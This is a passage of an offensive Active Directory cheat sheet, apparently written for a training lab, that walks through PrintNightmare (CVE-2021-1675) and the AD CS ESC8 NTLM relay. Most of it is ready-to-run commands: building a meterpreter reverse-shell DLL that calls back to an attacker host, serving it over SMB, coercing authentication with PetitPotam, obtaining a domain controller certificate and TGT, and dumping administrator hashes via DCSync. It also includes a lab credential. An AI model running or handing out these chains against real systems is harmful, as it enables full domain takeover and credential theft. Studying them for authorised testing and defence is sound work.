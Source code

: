   * **What it does:** This is the exploit script. It authenticates to the target DC (`172.16.5.5`) and instructs its Print Spooler service to load and execute a malicious DLL from an SMB share that you control (`\\172.16.5.225\CompData\backupscript.dll`).
  * **When to use it:** When a target (especially a DC) has the Print Spooler service enabled and is not patched for this vulnerability. This is a direct path to remote code execution.
  * **Example Exploit Chain:**
    1.  **Create a malicious DLL:**
        ```shell
        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
        ```
    2.  **Host the DLL on an SMB share:**
        ```shell
        sudo smbserver.py -smb2support CompData ./
        ```
    3.  **Run the exploit:**
        ```shell
        sudo python3 CVE-2021-1675.py inlanefreight.local/forend:'Klmcargo2'@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
        ```

-----

### AD CS Relay (ESC8)

This is a powerful attack that relays NTLM authentication to an Active Directory Certificate Services (AD CS) web endpoint to enroll for a certificate on behalf of the victim. If the victim is a DC, you get a certificate that can be used to get a TGT and compromise the domain.

#### `sudo ntlmrelayx.py --target http://ACADEMY-EA-CA01/certsrv/certfnsh.asp --adcs --template DomainController`

  * **What it does:** This command sets up the relay server. `ntlmrelayx` will listen for incoming NTLM authentications. When it gets one, it will forward (relay) it to the AD CS web server specified in the `--target` and request a certificate using the `DomainController` template.
  * **When to use it:** When you've identified an AD CS server with a vulnerable web enrollment endpoint (HTTP, not HTTPS) and misconfigured certificate templates.
  * **Example Exploit Chain:**
    1.  **Start the relay server:**
        ```shell
        sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
        ```
    2.  **Coerce an authentication from the DC to your relay server:**
        ```shell
        python3 PetitPotam.py 172.16.5.225 172.16.5.5
        ```
    3.  `ntlmrelayx` will catch the authentication and use it to get a base64-encoded certificate for the DC.
    4.  **Use the certificate to get a TGT:**
        ```shell
        python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <BASE64_CERT_FROM_NTLMRELAYX> dc01.ccache
        ```
    5.  **With the TGT cached, perform DCSync:**
        ```shell
        export KRB5CCNAME=dc01.ccache
        secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ```
